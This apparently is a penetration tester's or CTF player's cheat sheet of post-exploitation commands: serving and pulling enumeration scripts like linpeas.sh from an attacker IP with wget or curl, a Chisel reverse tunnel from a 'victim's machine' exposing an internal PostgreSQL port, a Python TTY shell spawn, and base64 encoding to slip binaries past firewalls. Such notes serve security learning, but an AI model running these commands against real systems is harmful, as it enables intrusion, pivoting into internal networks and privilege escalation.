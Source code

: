 # General Commands

### Python server

`python3 -m http.server 8888`

To download the file: `wget http:/KALI_IP//linpeas.sh`

If the remote server does not have `wget`, we can use `cURL`. : `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

### SCP

Copy file from local to a remote computer:

```bash
scp file.txt remote_username@10.10.0.2:/remote/directory/newfilename.txt
# -P to set the ssh port in necessary case
```

Copy file from remote directory to local computer

```bash
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
```

### Chisel

Example for postgresql (port 5432). First we need to transfer chisel.

On the attacker's machine:

```
chisel server --port 9002 --reverse
```

On the victim's machine:

```
./chisel client -v 10.10.16.81:9002 R:5432:172.22.0.1:5432
```

And now on the atacker's machine we have the ports 5432 connected. The usage wil be on another tab: `psql -h 10.10.16.81 -U "postgres" -p 5432`

``

#### Spawn a TTY Shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### Tmux

```
sudo apt install tmux -y
```

* [https://tmuxcheatsheet.com/](https://tmuxcheatsheet.com/)
* [Introduction to termux Ippsec](https://www.youtube.com/watch?v=Lqehvpe\_djs)

### Vim

[https://vimsheet.com/](https://vimsheet.com/)

### base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.

```bash
base64 binarytotransfer -w 0
#On the local machine
```

```
echo f0VMR... <SNIP> ...lIuy9i | base64 -d > binarytotransfer
#On the remote machine
```

